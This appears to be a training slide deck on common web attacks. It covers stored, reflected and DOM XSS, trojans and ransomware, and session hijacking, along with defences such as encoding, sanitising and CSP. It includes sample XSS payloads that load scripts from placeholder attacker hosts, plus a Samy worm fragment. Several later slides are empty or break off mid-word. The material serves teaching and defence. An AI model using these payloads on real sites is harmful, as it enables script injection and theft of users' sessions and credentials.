

# Common Attacks

---
 
## What this Module Covers

- This module explores the following common attacks:
  - Cross site scripting (XSS)
  - Malicious file execution
  - Session hijacking
  - Encryption
  - Unsecured direct object reference
  - Failure to authorize/hidden URLs
  - Cross site request forgery (CSRF) 

- There are other attacks not covered in this module
  - OWASP maintains a project identifying the current top ten attacks
  - [OWASP Top Ten] https://owasp.org/www-project-top-ten/


Notes:

---

## Cross Site Scripting (XSS)

- A form of injection attack
- Malicious scripts are injected into a response from a trusted website
  - Because the script is from a trusted source, the user's browser executes it as trusted code
  - There is no way for the browser to tell the script originated from an untrusted source
  - The XSS script has the same level of trust as the website
- Often used to access session tokens, cookies and other information stored in the user's browser


Notes:

---

## Types of XSS Attacks

- There are three types of XSS attacks
  - _Stored XSS:_ Also referred to as persistent or Type I attacks
  - _Reflected XSS:_ Also referred to as Type II attacks
  - _DOM XSS:_ Also referred to as Type 0 attacks
  
---

## Persistent XSS Attack

- An attacker injects or inserts a malicious script payload into a trusted website
  - Vulnerable websites assume the input is not executable code
  - Typical inject points are blog comments and other user generated content
- A user accessing the infected page will download the script payload in the HTTP response
  - The user's browser executes the code since it is from a trusted website
- Social Engineering (email phishing for example) is often used to trick users into visiting the infected page

Notes:

---

## Persistent XSS Attack


Notes:

Image credit: https://spanning.com/blog/cross-site-scripting-web-based-application-security-part-3/

---
## Persistent XSS Attack Example

- A trusted blog allows users to post comments
- An attacker posts the following comment which contains a malicious script payload

```html
Well thought out essay, loved it!!
<script>http://attackerwebsite.com/maliciousscript.js</script>
```

- When a user goes to the page containing the comment, the user's browser executes the payload
- The attack payload remains in persistent storage on the server
- Multiple users may become targets of the attack
- Phishing is used to direct uses deceptively to the payload
- _OMG!!!, can you believe what this guy wrote!!! (link to payload comment)_


---
## Sammy's Worm

- Sammy's worm was an early (2005) worm that propagated through the MySpace user community by using an XSS attack
  - The worm displayed the message "Sammy is my hero,"then sent a friend request to the author Sammy Kamkar
  - When an infected profile page was viewed, the payload would be replicated on the viewer's MySpace page
  - Within 20 hours, the worm was on one million MySpace pages - Sammy was arrested shortly after
- A code fragment from the attack is shown below - notice where the XSS payload is located
```html
but most of all Sammy is my hero
<div id="mycode" 
     style="background:url('javascript:eval(document.all.mycode.expr)')" expr="payload_code" ...
```
---

## Reflected XSS Attack


Notes:

Image Credit: https://medium.com/iocscan/reflected-cross-site-scripting-r-xss-b06c3e8d638a

---

## Reflected XSS Attack

- A user is tricked into clicking on a malformed URL to a trusted website via Social Engineering 
  - Common attack vector is to send the link in an email with a deceptive link description
- The payload is in the malformed URL
  - Vulnerable websites will return the payload as part of the error response
  - When the response is opened in the user's browser, the payload executes
---

## Reflected XSS Attack Example

- An attacker sends a link to a target in email which looks like:

```html
    https://vulnerablewebsite.com?q=news<\script%20src=”http://evilsite.com/payload.js"
```
- The URL description will be deceptive, like "New info that will affect your account"
- A vulnerable website will return the unfiltered content of the query in the error message

```html
Error!!
    <script type=’text/javascript’>payload</script> not found.
```
- Once the error page is loaded, the payload is executed in the victim's browser even though it is inside an error message

---

## DOM XSS Attack


Notes:

Image Credit: https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd

___


## DOM XSS Attack

- The malicious load is executed by modifying the DOM “environment” in the victim’s browser
- This causes the original client side script to run in an “unexpected” manner
- The HTTP response is not affected, the returned page contains the altered script 
- The client side code executes differently because of the modifications to the script in the DOM environment
- The attack injects malicious code as parameters or URI fragments

---

## DOM XSS Attack Example #1 - Parameter Insertion 

- A website allows users to select their language but uses English as the default:

```html
  http://TrustedWebsite.com/page.html?default=English
```
- This is processed by a script like this:

```html
Select your language:

    <select><script>

    document.write("<OPTION value=1>"+decodeURIComponent(document.location.href.substring(document.location.href.indexOf("default=")+8))+"</OPTION>");

    document.write("<OPTION value=2>English</OPTION>");

    </script></select>
```
- The important thing to note is that the URI fragment "default=English" becomes part of the script

---
## DOM XSS Attack Example #1 - Parameter Insertion

- The attacker social engineers a victim to click on an altered link:

```html
  http://TrustedWebsite.com/page.html?default=<script>payload</script>
```
- The original Javascript code in the page does not expect the default parameter to contain HTML markup
  - The markup is decoded and written into the page's DOM at runtime
  - The browser then renders the infected page and executes the attacker’s script
- The HTTP response does not contain the payload
  - This payload executes as part of the original client-side script at runtime

---

## DOM XSS Attack Example #2 - URI Fragment


- The example above is a typical Single Page Application where the current user selection is indicated by a URI fragment
  - The user has selected image 2 so the URL is:
```html
  https://xss-game.appspot.com/level3/frame#2
```
- If the user selects image one, then the URL is:
```html
    https://xss-game.appspot.com/level3/frame#1
```

---

## DOM XSS Attack Example #2 - URI Fragment

- Calculating the current page is all done clients side (like in Angular applications for example)
- One way to perform a DOM XSS attack is to cause the underlying code to throw an error and then have our own error handler execute malicious code
```html
  https://xss-game.appspot.com/level3/frame#xxx' onerror='payload()'
```
- The _onerror_ executes whatever JavaScript immediately follows it
- This link can now be socially engineered so that a user will click on it and the exploit will execute


Notes:

---

## The eBay XSS Attack


- In 2014, hackers exploited an XSS vulnerability in the eBay website
- Users were redirected to a fake login page used to harvest their login credentials
- _eBay redirect attack puts buyers' credentials at risk_ https://www.bbc.com/news/technology-29241563
- Other companies suffering major XSS attacks are Minecraft, Wordpress, Adobe and others

---

## Defences Against XSS Attacks

- XSS relies on social engineering like phishing attacks to get users to click on the link provided by the attacker
  - First line of defence is to train users to _not_ click on unvetted links in emails or posts
  - Email filtering to block links or to only allow whitelisted links through
- The primary defence against XSS is to remove the website vulnerabilities that allow the injection of malicious code
  - For persistent XSS, this means not allowing code to inserted as if it were data
  - For reflected XSS, this means not allowing user supplied html in website responses
  - For DOM XSS, this means that all potential invalid or unexpected inputs are handled correctly

---

## HTML Encoding

- HTML encoding is the process of replacing HTML special characters with a coded replacements
  - This allows HTML to be treated as text and NOT markup by the browser
  - For example "<" is encoded as "&lt;"
- In the persistent XSS example, the injected payload was
```html
Well thought out essay, loved it!!
<script>http://attackerwebsite.com/maliciousscript.js</script>
```
- After HTML encoding, it is treated as text and looks like
```
Well thought out essay, loved it!!
&lt;script&gt;http://attackerwebsite.com/maliciousscript.js&lt;/script&gt;
```
---

## Some Defences Against XSS

- All untrusted data can be inserted only in specified locations
  - Untrusted means that the content originated other than from a trusted source like our database or application
- No untrusted data is used as content in an HTML element without being HTML encoded
  - This ensures the content is treated as data and not as markup
- All attribute values must be attribute encoded
  - Attribute encoding is a subset of HTML encoding 
  - A different encoding is used because attributes are parsed differently than HTML elements
- Similar encoding rules exist for CSS and JavaScript

---

## Some Defences Against XSS

- Sanitize all untrusted input
- If some HTML markup is allowed in untrusted input, sanitizing removes all the illegal input
- For example, a comment section for a blog allows `<b>`, `<i>` and `<hr>` tags
  - The uploaded HTML is

```html
<b>Well thought out essay, loved it!!</b>
<script>http://attackerwebsite.com/maliciousscript.js</script>
```
- The sanitized versions is
```html
<b>Well thought out essay, loved it!!</b>
```
---

## Sanitizing Libraries

- Some examples of available sanitizing libraries
- HTML sanitizer from _Google Closure Library_ (JavaScript/Node.js, docs)
  - https://developers.google.com/closure/library/
- DOMPurify (JavaScript, requires jsdom for Node.js)
  - https://github.com/cure53/DOMPurify
- PHP HTML Purifier 
  - http://htmlpurifier.org/
- Python Bleach
  - https://pypi.org/project/bleach/

---

## Other XSS Preventive Measures

- Implement Content Security Policy
  - A browser side directive to specify allowed sources of content
  - The directive below allows JavaScript to be loaded only from the page's site and from static.domain.tld  
```html
Content-Security-Policy: default-src: 'self'; script-src: 'self' static.domain.tld
```
- Hold all user generated or untrusted content for review before writing

---
## Malicious File Execution

- There are two basic types of malicious file execution
- Client side attacks
  - Malicious code is inserted into the client machine to intercept communications between the browser and the browser security mechanisms
  - Often depends on social engineering to deceive users into installation
- Server side attacks
  - Malicious code is inserted into the server environment to execute on the server or to  interfere with the server operations
  - Often the result of poor security protocols on the server side
  
---

## Client Side Attacks

- The primary method used in a client side attack is a Trojan
  - Trojans are malicious code masquerading a trusted application
  - One of the most common client side attacks
  - Enables other attacks like session hijacking and manipulator in the middle
- Other client side attacks are worms and viruses
  - Not normally used in targeted attacks so we won't discuss them in this session
  


Notes:

Image Credit: www.guru99.com/learn-everything-about-trojans-viruses-and-worms.html

---
  
## Common Types of Trojans - RATs

- _Remote Access Trojan (RAT):_ Allows attacker to take full control a computer
  - Often disguised as a utility.
  - Social Engineering often used to gain access to a machine
- The _Windows Support Scam_ is a social engineering attack
  - Users are fed a phony webpage, shown on the next slide.
  - After calling the number, they give scammers remote access to their computer
  - The scammers then install a RAT disguised and an anti-virus or other utility
  - The scammers now have free access to the infected machine

---

## Windows Support Scam


Notes:
Image Credit: wolfstreet.com/2018/08/19/scam-critical-alert-from-microsoft-iexplore-www-support-me-malware/

---
## Common Types of Trojans - Loggers

- _Data Sending Trojan_: Uses keylogger technology to capture sensitive data
  - Example passwords, credit card and banking information
  - The data is then sent to the attacker
- Loggers are often part of a larger malware suite of functionality
  - For example, collecting and sending all phone and computer data
  - Modifies the display of web pages to request information to harvest

---
## Zeus Trojan


- Zeus malware was one of the most widespread and damaging trojans deployed 
- The main attack vector was via an email phishing attack
  - Users who clicked on the link would have Zeus installed
  - It didn't masquerade as an application, it tended to hide in infected systems
- Currently, in "retirement," it is the inspiration for many similar trojans

Notes:
Image Credit: https://techieandwhatever.blogspot.com/2017/06/what-is-zeus-malware-and-how-does-it.html

---
## Other Trojan Types

- _Destructive Trojan:_ Designed to destroy data stored a computer
  - Ransom-ware is variation on this since the encrypted data is essentially destroyed
- _Proxy Trojan:_ Uses the victim’s computer as a proxy server
  - Enables attackers to execute illicit acts from the infected computer
  - Basic tool for creating BotNets 
- _FTP Trojan_: Uses port 21 to enable FTP file uploads to tje victim’s computer
- _Security software disabler Trojan:_ Disables security software like firewall and antivirus software
- _Denial-of-Service attack Trojan:_ Designed to give the attacker ability to perform DOS attacks from victim’s computer.

---
## Ransomware - A Client Side Attack


- Ransomware is the leading malware problems exemplified by 2021 cases like Colonial Pipeline, JBS Foods and the NBA
  - Typical attack vector is a phishing email with a link to a site that installs the malware
  - Also exploits vulnerabilities that allow running malicious code on the target computer, open port 21 for example
  - XSS attacks are also used to direct users to sites that installs the ransomware 
- Note that ramsomware must be able to install and execute code on the target computer

Notes:

Image Credit: en.wikipedia.org/wiki/WannaCry_ransomware_attack#/media/File:Wana_Decrypt0r_screenshot.png

---

## Client Attack Defences


---

## Session Hijacking

- HTTP is a stateless protocol but user interactions are usually stateful
  - For example, logging onto a web banking session
  - You have to be in an authenticated state before doing any banking
- User session state is managed by some sort of session management token
  - This token identifies the client browser as the correct user for that session
- Session hijack attacks involve stealing the token from a victim's session
  - The attacker can now take the place of the real user and perform actions the real user would be allowed to do in the session
  - For example, hijacking an on-line banking session and transferring funds to the attacker's account
- There are different types of session hijack attacks

Notes:

---
## Session Hijacking


Notes:

Image Credit: www.netsparker.com/blog/web-security/session-hijacking/

---

## Session Hijacking

- Session hijacking often requires obtaining the session token
- There are several ways this is done
  - Predicable session tokens
  - Client side attacks, like XSS, to steal tokens
  - Trojans and malware on the client machine
  - Session sniffing
- Session sniffing involves scanning HTTP traffic between a host and client to mine session tokens
- Two common forms of session hijacking are:
  - Man in the Middle Attack
  - Man in the Machine

Notes:

---

## Predicable Session Tokens


- Vulnerability is due to poor security design
  - Eg. using the user ID or other piece of data as the session token
- To avoid this specific vulnerability
  - Use long and randomly generated session tokens
  - Change the token after each request or at random times
  
Notes: 

Image Credit: owasp.org/www-community/attacks/Session_Prediction

---

## Sniffing


Notes:

Image Credit: www.netsparker.com/blog/web-security/session-hijacking/


---

## Sniffing


- Attacker uses packet sniffing to monitor HTTP traffic and mine session tokens and credentials
- To avoid this specific vulnerability:
  - Use HTTPS for all traffic - all of the session traffic will be encrypted including tokens
  - Use HTTPOnly to prevent access to stored cookies on the client machine
  - Constantly changing session keys to invalidate any captured tokens
  - Use a VPN - All traffic move through and "encrypted channel" that cannot be sniffed
  - Avoid unsecured WiFi networks since you don't know who is listening
  - Don't rely on just session keys to establish ID - use URLs, usage patters or other identifying data

Notes:

---

## Client Side Attacks

- Client side attacks target both session tokens and other credentials
- XSS is a common client side attack
- Trojans are a common attack vector and include:
  - Re
Notes:

---
## Encryption

Notes:

---


## Unsecured Direct Object Access

- Happens when implementation objects are exposed
  - Eg. Configuration files, credentials, SQL queries
- These objects can then be modified or destroyed
- If implementation directories are accessible
  - Attackers can add new files to compromise the system
- 

Notes:

---

## Hidden URL Authorization Failure

Notes:

---

## Cross Site Request Forgery


Notes:

---


